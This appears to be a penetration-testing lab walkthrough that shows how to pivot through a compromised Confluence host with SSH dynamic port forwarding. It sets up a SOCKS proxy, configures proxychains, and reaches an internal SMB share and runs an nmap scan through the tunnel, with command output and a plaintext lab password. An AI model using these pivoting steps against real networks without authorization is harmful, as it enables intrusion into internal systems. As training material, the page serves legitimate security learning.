

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SSH Dynamic Port Forwarding

Local SSH Port Forwarding, as seen in the [last example](ssh-local-port-forwarding.md), has one glaring limitation: one can only connect to one socket per SSH connection. This can make it quite tedious to use at scale.

Fortunately, OpenSSH also provides [dynamic port forwarding](https://payatu.com/blog/ssh-tunnelling/#Dynamic\_Port\_Forwarding). From a single listening port on the SSH client, packets can be forwarded to any socket that the SSH server host has access to.

Dynamic port forwarding allows users to create a socket on a local (SSH client) machine port, which acts as a [SOCKS proxy server](https://securityintelligence.com/posts/socks-proxy-primer-what-is-socks5-and-why-should-you-use-it/). SOCKS is a proxying protocol. Much like a postal service, a SOCKS server accepts packets (with a SOCKS protocol header) and forwards them on to wherever they're addressed. When a client connects to this proxy, the connection is forwarded to the remote (SSH server) machine, which is then forwarded to a dynamic port on the destination machine.

In SSH dynamic port forwarding, packets can be sent to a single listening SOCKS port on the SSH client machine. These will be pushed through the SSH connection, then forwarded to anywhere the SSH server machine can route. The only limitation is that the packets have to be properly formatted - most often by SOCK-compatible client software. In some cases, software is not SOCKS-compatible by default.

In the network discovered so far in the previous [examples](ssh-local-port-forwarding.md), a dynamic port forward would look something like:

<figure><figcaption><p>A dynamic SSH port forward</p></figcaption></figure>

This would really open up the network to the attacker. In this scenario the attacker has set up the SSH tunnel entry point to port `9999` on `CONFLUENCE01`. The traffic is routed through the tunnel to `PGDATABASE01` and can then be sent on to _any destination host_ visible to `PGDATABASE01`.

This means the attacker will still be able to access the SMB port on `HRSHARES`, but they can also access a lot more through this single port. However, in order to take advantage of this flexibility, they need to ensure that whatever software they use can _send packets in the correct SOCKS protocol format_.

## Setting Up a Dynamic Forward

The initial stages are the same as seen [before](ssh-local-port-forwarding.md):

1. Spawn a standard reverse shell with the exploit shown [here](../simple-port-forwarding-scenario.md#cve-2022-26134)
2. Stabilize the shell with the technique demonstrated [here](../../shells/reverse-shell/netcat.md#simplified)

Once a stabilized shell has been created on CONFLUENCE01 the dynamic forward can be created using the `ssh` command with the [`-D`](https://man.openbsd.org/ssh#D) flag:

```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.228.215
```

* `-N` is used to prevent a shell from opening (allowing generic protocols through)
* `-D` sets the dynamic binding to allow all incoming connections (`0.0.0.0`) and to listen on port `9999`
* `database_admin@10.4.228.215` sets the endpoint of the tunnel to the SSH server at `10.4.228.215` and uses the `database_admin` account

Similar to earlier examples, this command does not yield output (though a password prompt is needed). Once the password is entered, the forward is set up and listening:

```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.228.215
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.228.215 (10.4.228.215)' can't be established.
ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.228.215's password: 

```

* The credentials for database\_admin were found in an [earlier example](../simple-port-forwarding-scenario.md)

## Using the Dynamic Forward

Now that the dynamic port forward is set up the attacker can send traffic through it. As noted before, traffic must be in the _proper format for a SOCKS proxy_.

### Proxychains

[Proxychains](https://github.com/rofl0r/proxychains-ng) is a UNIX project that can be used to proxy non-SOCKS-compliant tools over a SOCKS proxy connection.

Proxychains works is a light hack. It uses the Linux shared object preloading technique (`LD_PRELOAD`) to hook `libc` networking functions within the binary that gets passed to it, and forces all connections over the configured proxy server. This means it might not work for everything, but will work for most _dynamically-linked binaries_ that perform simple network operations. It won't work on _statically-linked binaries_.

#### Proxychains Configuration File

Proxychains relies on a config file, stored by default at `/etc/proxychains4.conf`. Checking the configuration file reveals:


```bash
...
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```


This will need to be modified to point to the SOCKS5 proxy on `CONFLUENCE01`. The replacement will be:

```
socks5 192.168.228.63 9999
```

The modified file looks like this:


```bash
...
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor
socks5 192.168.228.63 9999
```


This example simply reduces the `[ProxyList]` to one element for simplification. Proxychains can be configured with multiple proxies as shown [here](https://subscription.packtpub.com/book/security/9781783289592/2/ch02lvl1sec22/setting-up-proxychains).

#### smbclient Example

In this example, the attacker will attempt to connect to `HRSHARES` using `smbclient` as seen [before](ssh-local-port-forwarding.md). The difference is that this time traffic will be sent via the SOCKS proxy set up on `CONFLUENCE01` at port 9999.

Checking `smbclient`'s [documentation](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) reveals no way to do SOCKS proxying natively. Therefore Proxychains will need to be used.

Once this is set up the `HRSHARES` machine can be accessed by sending traffic through the SSH Dynamic Forward created at port `9999` on `CONFLUENCE01` as follows:


```bash
proxychains smbclient -L //172.16.228.217/ -U hr_admin --password=Welcome1234
```


* `proxychains` routes traffic through Proxychains
* `smbclient` command is structured normally
  * Being placed after the `proxychains` command will route traffic through the specified Proxychains configuration

Running this command from the attacker's machine results in the same output as seen in the [last example](ssh-local-port-forwarding.md#sending-traffic-through-the-tunnel):

```bash
kali@kali:~$ proxychains smbclient -L //172.16.244.217/ -U hr_admin --password=Welcome1234 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  192.168.244.63:9999  ...  172.16.244.217:445  ...  OK

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Scripts         Disk      
	Users           Disk      
Reconnecting with SMB1 for workgroup listing.
[proxychains] Strict chain  ...  192.168.244.63:9999  ...  172.16.244.217:139  ...  OK
[proxychains] Strict chain  ...  192.168.244.63:9999  ...  172.16.244.217:139  ...  OK
do_connect: Connection to 172.16.244.217 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

In this manner `smbclient` can be used normally with `HRSHARES` from the attacker's machine outside the network (via the SSH Tunnel between `CONFLUENCE01` and `PGDATABASE01`)

#### Nmap Example

Now that the attacker has a foothold inside the network, it might be nice to check what else is available on the network. This can be done manually but that is tedious and slow. Instead it would be nice to use Nmap. One option is to try and install Nmap on the victim machine and run it. While that might work, usually Nmap requires elevated privileges (plus the install) and thus is only useful in certain scenarios.

Instead it would be nice if the attacker could run Nmap on their own machine and send the traffic through the SSH tunnel into the network. This would allow them to enumerate all hosts visible to `PGDATABASE01` by sending traffic to the listening port on `CONFLUENCE01`.

Note, Nmap does offer a native --proxies option but it is still "under development" and not suitable for port scanning according to [its documentation](https://nmap.org/book/man-bypass-firewalls-ids.html). Proxychains will be leveraged with Nmap instead of the native proxying options.

For this example the attacker will leverage a TCP-Connect Scan to discover other open ports on `HRSHARES` (`172.16.228.217`) using the following command:

```bash
nmap -vvv -sT --top-ports=20 -Pn 172.16.228.217
```

* `-vvv` sets verbosity to high
* `-sT` sets the TCP-Connect scan type
* `-Pn` skips the host discovery phase (the attacker already knows `HRSHARES` exists at that address)

This is again preceded by the `proxychains` command as shown below:

```bash
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.228.217
```

This command can be executed from the attacker's machine to scan `HRSHARES`:

```bash
kali@kali:~$ proxychains socks5 nmap -vvv -sT --top-ports=20 -Pn 172.16.228.217
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.228.217
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] DLL init: proxychains-ng 4.16
...
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Initiating Parallel DNS resolution of 1 host. at 13:42
Completed Parallel DNS resolution of 1 host. at 13:42, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 13:42
Scanning 172.16.228.217 [20 ports]
[proxychains] Strict chain  ...  192.168.244.63:9999  ...  172.16.228.217:110 <--socket error or timeout!
...
[proxychains] Strict chain  ...  192.168.244.63:9999  ...  172.16.228.217:3389 <--socket error or timeout!
Connect Scan Timing: About 50.00% done; ETC: 13:43 (0:00:31 remaining)
[proxychains] Strict chain  ...  192.168.244.63:9999  ...  172.16.228.217:445 <--socket error or timeout!
...
[proxychains] Strict chain  ...  192.168.244.63:9999  ...  172.16.228.217:995 <--socket error or timeout!
Completed Connect Scan at 13:43, 61.68s elapsed (20 total ports)
Nmap scan report for 172.16.228.217
...
PORT     STATE  SERVICE       REASON
21/tcp   closed ftp           conn-refused
22/tcp   closed ssh           conn-refused
23/tcp   closed telnet        conn-refused
25/tcp   closed smtp          conn-refused
53/tcp   closed domain        conn-refused
80/tcp   closed http          conn-refused
110/tcp  closed pop3          conn-refused
111/tcp  closed rpcbind       conn-refused
135/tcp  closed msrpc         conn-refused
139/tcp  closed netbios-ssn   conn-refused
143/tcp  closed imap          conn-refused
443/tcp  closed https         conn-refused
445/tcp  closed microsoft-ds  conn-refused
993/tcp  closed imaps         conn-refused
995/tcp  closed pop3s         conn-refused
1723/tcp closed pptp          conn-refused
3306/tcp closed mysql         conn-refused
3389/tcp closed ms-wbt-server conn-refused
5900/tcp closed vnc           conn-refused
8080/tcp closed http-proxy    conn-refused

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 61.80 seconds
```

While the scan did not turn up anything useful, it could be run from outside the network and the traffic is emitted by `PGDATABASE01`. Perhaps further scans turn something up.
